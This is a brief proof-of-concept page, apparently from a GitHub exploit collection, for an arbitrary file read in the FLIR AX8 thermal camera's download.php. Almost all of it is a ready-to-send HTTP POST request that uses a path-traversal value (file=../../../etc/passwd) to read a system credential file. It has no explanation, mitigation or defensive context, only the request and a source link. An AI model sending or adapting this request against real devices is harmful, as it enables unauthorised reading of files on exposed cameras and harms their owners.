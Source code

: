 # FLIR-AX8_download_fileread

```
POST /download.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ****
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

file=../../../etc/passwd
```

from: https://github.com/wy876/POC/blob/main/FLIR/FLIR-AX8%E7%83%AD%E6%88%90%E5%83%8F%E4%BB%AAdownload.php%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
